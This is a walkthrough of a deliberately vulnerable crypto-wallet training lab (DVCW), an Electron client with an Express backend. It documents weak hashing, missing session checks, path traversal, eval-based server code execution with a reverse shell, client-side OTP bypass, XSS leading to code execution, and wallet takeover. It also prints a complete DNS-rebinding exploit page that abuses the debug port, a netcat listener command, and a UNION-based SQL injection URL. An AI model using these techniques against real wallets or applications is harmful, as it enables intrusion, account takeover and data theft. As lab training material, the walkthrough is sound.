# DVCW Walkthrough

## Installation - setup

For this application to work the first step would be to have Docker and Docker-Compose correctly installed in a Kali Linux environment. This article is not going to focus on that.

`git clone https://gitlab.com/badbounty/dvcw`
`cd dvcw/`
`make install`

This commands will start every docker container, a web server that will be listening in port 3000 and a [local ethereum network](https://github.com/trufflesuite/ganache-cli) listening on port 8545.

Once that every docker is up we can start the Client. Download the latest release from [The release page](https://gitlab.com/badbounty/dvcw/releases)

Once we have the file downloaded, we should decompress it with the command:

`tar -xvfz filename -C destination`.

Now, we will configure Proxychains to redirect the application traffic to our Burp Suite Proxy.

We simply open the Proxychains configuration file with `nano /etc/proxychains.conf`  and then we add our proxy configuration. In my case, the file will look as the following:
```
[ProxyList]
http 127.0.0.1 8080
https 127.0.0.1 8080
```
Now we can simply open the client with the following command `proxychains ./DVCW`


## Decompilation

It could be easily done with `npm install asar` , `asar extract app.asar destfolder` , but it could also  be decompiled in a Windows environment with this [plugin](http://www.tc4shell.com/en/7zip/asar/) for 7zip.


### Weak hashing algorithm

The first view we are prompted with is a registration form, and after setting up a password, we can see that a request is sent to the backend, with a 32-char hash.



MD5 is an encryption algorithm  which is known for returning a 32-char long hash and for being a insecure type of encryption. If we use this algorithm to encrypt the password that we used to register (you can try it [here](https://www.freecodeformat.com/md5.php)), we can observe that MD5 is being used between the client and the server.

### No session management

Going to the ´Settings´ menu and changing the profile information generates a request to the backend with no kind of session management, neither the usage of cookies nor an authorization header. This means that we have an open API that does not validate who we are, this means "IDORs" everywhere. 




### Electron version
Observing the decompiled code we can observe that an outdated version of the Electron version is being used. (/app/menu/index.js)

`binwalk app.asar` will give you a detailed list of every package integrated in the compiled version of the application, including the Electron version in use.




[CVE-2017-12581](https://www.cvedetails.com/vulnerability-list/vendor_id-16801/product_id-39184/version_id-220270/Electron-Electron-1.6.7.html) , [CVE-2018-1000006](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000006).

With a few google searches, we can see that the first CVE, CVE-2017-12581 refers to a nodeIntegration bypass, but it seems that there is no "nodeIntegration=false" declaration in the code.
The seoond CVE, CVE-2018-1000006 refers to a Remote Code execution vulnerability in Windows environments for this version of Electron.
Following [this](https://hackernoon.com/exploiting-electron-rce-in-exodus-wallet-d9e6db13c374) overview from the vulnerability, it was possible for us to generate a little POC that works in Edge browser:


After opening this file with the Edge browser, the user will be prompted with the following message:



If the user clicks on the 'Yes' option, the application and a CMD window will be opened.

It is important to note that this behaviour will not be exploitable nor in Chrome nor Firefox browser because both will URL encode the string saved in the window.location variable.



### Path traversal

In the extracted folder from the 'app.asar' file, we can find the following file: /app/logs/log.txt . Our senses are tinkering with the f parameter, which could get a file name as the value. Having in mind that the data is a JSON value, we try to retrieve a JSON file from the server.


After browsing the "express-api" folder for JSON files, we try to retrieve each one of them.


### RCE (server side)

When doing SAST for a Node application, there are some interesting functions that can be dangerous to use. One of them is eval,which evaluates the input as more code . Doing a simple  `grep -rin eval` in the /expres-pi/ directory, we can find that the file wallets.route.js in the 'route' directory is using this function.
Below, we can observe the vulnerable code:




We can see that the application runs the eval() function grabbing the request body as the input. So, we will need to send JS code that the server can execute. But we hit an error message by doing so:


But, as we can see in the response, we are hitting an error for not using a proper JSON, but maybe we can bypass this by using the "text/plain" Content-Type as it is being accepted by the server as we can see in the 'Accept' header:


So, now that we are being able to execute code and OS commands on the server, we want to escalate this issue as much as possible. We can, for example, open a reverse shell to our machine:


Once that we have a reverse shell, we can execute every os command that we want on the server:



Notes: 

* It is not possible to use 'require('child_process').exec()', which is async so we needed to use 'require('child_process').execSync()' instead.
* As the server is running docker-compose, and it has a restricted shell, it was not possible to use another method than python in order to generate the reverse shell. To know what programs were available in the environment, you can get a shell in a docker-compose container via 'docker-composer exec docker_name /bin/bash'
* Also, it was neccesary to escape two quotations levels in order to generate the correct payload for the reverse shell.

### Cors Misconfiguration

When doing some general tests, it was possible to identify a CORS misconfiguration that would allow any malicious party to read the response of the API.




### Insecure Storage

#### mnemonic in base64
The first request the application makes, is a POST to the 'wallets/new' path. As a response to this request, we can see the information of the new wallet, with "parameters" such as 'walletId', 'mnemonic' , 'publicAddress', etc as seen below:



Looking closely we can suspect that the 'mnemonic' value is a base64 Encoded value (The '=' character at the end highly encourages us to decode it):


If as an attacker, we have access to this value, then it would be possible to restore the user´s password and hijack his/her account.

#### No integrity controls for local config files

As configuration files are client-side loaded, they should implement an integrity control over this files.


#### Weak hashes (MD5) and ciphers (rc4)

By doing "grep -rin rc4" and grep -rin md5 we can see that the application is using weak ciphers.


### OTP Bypass

After playing around with the application, I got tired of using the OTP so it´s time to try to bypass it.
We will try to search where in the client it is the validation being done. We enter the /app/ folder and search for a related string: `grep -rin "otp"`.
After digging the code for a while, I have come to the conclusion that the /app/utils.js is the file that is doing the validation:



We will change the function so that no matter what happens, it will return true.



Now we can use the code we want to, and we will be able to make transactions as if we are using the validation.

## Client RCE

After a little investigation on Electron Clientside XSS vulnerabilities, we know that the proper way to mitigate this risk is to define the nodeIntegration variable as false in the client code. So, after a  `grep -rin nodeIntegration` we know that this variable is not defined and it´s default value is true.

So, time to look up for our XSS ! 

Transactions have the possibility to add a message, and this functionality have led to various XSS in web applications, so we will try some payloads and see what happens.


First, we send `test><h1>test</h1>` and once we make the traansaction and open the message, we can observe that the HTML is being rendered:


Then, we proceed to test for `test<script>alert(8)</script>` but nothing happens, so maybe they are filtering this tag.

Finally, we use the famous payload `` and the JS is being executed:



So, now that we have triggered some JS, let´s try to pop a shell.

Note: In order to test this case, it is important that we prompt the Electron application without proxying the content with Burp as the shells will attempt to use the same connection settings that the main application, and Burp will drop down every connection which is not HTTP.

First, we set up our listener with `nc -lbp 80` in the same box we are running the application. Then, we will use the following payload in the message of a new transaction ``. This will make the client set up a reverse shell that connects to our nc server listening in localhost.





## Wallet takeover

After digging for a while the application and its code, it is now a security that there are no session mechanisms implementated within the communication of the client and the server. Also, the application uses local files to grab sensitive information, such as the public wallet id, but the "Password" required is not being sent to the server whatsoever so it was clear that we could log on to any wallet. For this, we would need another public walletId, which we can grab from the stdout of the 'docker-compose up' command (the first one is the one that the application uses by default):



So, we are going to grab the third one, and use this value in the configuration file located at "/.config/dvcw-electron-app/localdata.json" as the "publicAddress" value, and once we fire up the application, we will be received with the wallet for that public address.



## Debug Port

As we can see in the configuration file set up in .config/dvcw-electron-app/config.json there is a value called "debugPort" which value is 9334. If we run a "netstat -an" command we can observe that the application opens up this debug port by default. This could be exploited if the node version in which the application is running, is vulnerable to DNS Rebinding attacks.

After googling for a while, I found two DNS rebinding writeups that really helped me understand how an attack can be crafted under these circunstances, kudos to [@root_31068](https://medium.com/@root_31068/the-call-is-coming-from-inside-the-house-dns-rebinding-in-eosio-keosd-wallet-e11deae05974) and [@0xcc](https://medium.com/0xcc/visual-studio-code-silently-fixed-a-remote-code-execution-vulnerability-8189e85b486b) on that. If you haven´t opened these links yet, go ahead and read them.

So, to exploit this vulnerability we are going to need two things:

* A server with an html that triggers some JS code.
* A DNS server which will iterate from the IP of where we are hosting the web server above and localhost.

For the second one, we will be using the [whonow]()[https://github.com/brannondorsey/whonow] tool and its network.rebind domain, while for the first one we are going to use a python server with a simple HTML file in a VPS:

`python -m SimpleHTTPServer 9334`

After configuring the firewall rules to expose to the internet the Python Web server through port 9334 (Note that we need to use the same port number as the application), we create the 'dnsrebinding.html' file :

```
<html>
<body>
<script>
setTimeout(function() {
  let list;
  fetch("/json", { method: "GET" })
    .then(function(r) {
      return r.json();
    })
    .then(function(json) {
      list = json;
      const item = list.find(item => item.url.indexOf('file:///') === 0);
          if (!item) return log('error');
          console.log(item.webSocketDebuggerUrl);
          function exploit(url) {
                function nodejs() {
                        const cmd = {
                          darwin: 'open /Applications/Calculator.app',
                          win32: 'calc',
                          linux: 'xcalc',
                        };
                process.mainModule.require('child_process').exec(
                cmd[process.platform])
                };
                const packet = {
                  "id": 13371337,
                  "method": "Runtime.evaluate",
                  "params": {
                    "expression": `(${nodejs})()`,
                    "objectGroup": "console",
                    "includeCommandLineAPI": true,
                    "silent": false,
                    "contextId": 1,
                    "returnByValue": false,
                    "generatePreview": true,
                    "userGesture": true,
                    "awaitPromise": false,
                  }
                };
                const ws = new WebSocket(item.webSocketDebuggerUrl);
                  ws.onopen = () => ws.send(JSON.stringify(packet));
                  ws.onmessage = ({ data }) => {
                        if (JSON.parse(data).id === 13371337)
                          ws.close()
                  };
                  ws.onerror = err => console.error('failed to connect');
          };
        exploit(item.webSocketDebuggerUrl)
        });
}, 60000) // 60 seconds;
</script>
</body>
</html>
```

This Javascript file does the following:

1 - Invokes the setTimeout() function to trigger the code execution after some the user reaches the html page (this will give time for the DNS server to change its resolving IP to 127.0.0.1)
2 - We make a fetch request to get the file, in 'http://127:0.0.1:9334/json' that will present to us the webSocketDebuggerUrl corresponding to the debbuger.
3 - The exploit() funtion creates the WS request that will act as the payload and execute the commands in the machine.
4 - We initialize the exploit sending the webSocketDebuggerUrl of the debuger, which will prompt a calc.

Now we go to `http://a.<your VPS IP>.1time.127.0.0.1.4time.rebind.network:9334/dnsrebinding.html'` , wait for a minute until the JS is executed and finally our calc is up.


## SQL Injection


By doing SAST over the server code, it is always interesting to take a look to the code that handles the SQL queries. In this case, we can find it in the /express-api/data/index.js file. Every query seems to be using sanitized input except for the getWalletID() function that passes the "walletId" directly from the URL.


We track down the vulnerable function by doing `grep -rin --exclude-dir=node-modules --exclude-dir=test getWalletById`:

We enter the "express-api/controllers/wallets.ctrl.js" file in which the function is invoked




And now we make another search to determine in which api call this function is triggered `grep -rin --exclude-dir=node-modules --exclude-dir=test changeWalletProfiile`:


Now that we know that this method is being invoked when hitting the '/wallets/:walletId/change-profile' endpoint, we should perform some tests to validate if the 'walletId' URL query is vulnerable to SQL injection, so we head to the 'settings' menu on the client and press on the 'Update profile' button. After intercepting the request and modifying the walletId to a simple SQL injection payload we hit with a DB error:


And after playing for a while we came up with the following payload:

`http://127.0.0.1:3000/wallets/'UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,%20(SELECT&20sql&20from sqlite_master%20LIMIT%201)--`

This query will let you see the creation of the firts table (LIMIT 1) and which columns does it have. We can also change the LIMIT to 1,2 to see the second one, and so on.


Now that we know each of the fields on the 'transactions' table, we will make a subquery to retrieve the first value of each column:


And, we can now iterate every entry on the DB, by generating an Intruder attack in 'Battering RAM' mode, which will modify our LIMIT so that we can see every entry on the table.


you can even make any subquery in each of the NULL values, and query every entry from the database in less number of requests.

